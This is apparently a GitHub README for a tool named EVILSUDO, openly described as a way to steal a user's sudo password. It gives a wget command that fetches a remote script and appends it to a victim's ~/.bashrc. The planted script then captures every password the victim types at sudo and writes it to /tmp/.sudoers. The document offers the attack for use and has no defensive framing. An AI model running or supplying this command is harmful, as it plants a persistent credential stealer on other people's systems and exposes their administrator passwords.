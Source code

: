 # EVILSUDO
steal sudo password from a user
## USAGE
execute 
```bash
wget -O - https://raw.githubusercontent.com/desploit/priv-esc/master/bash/evilsudo >> ~/.bashrc
```
on a victim wait for them to run a sudo command and BOOM!! both correct and incorrect passsword are stored in /tmp/.sudoers

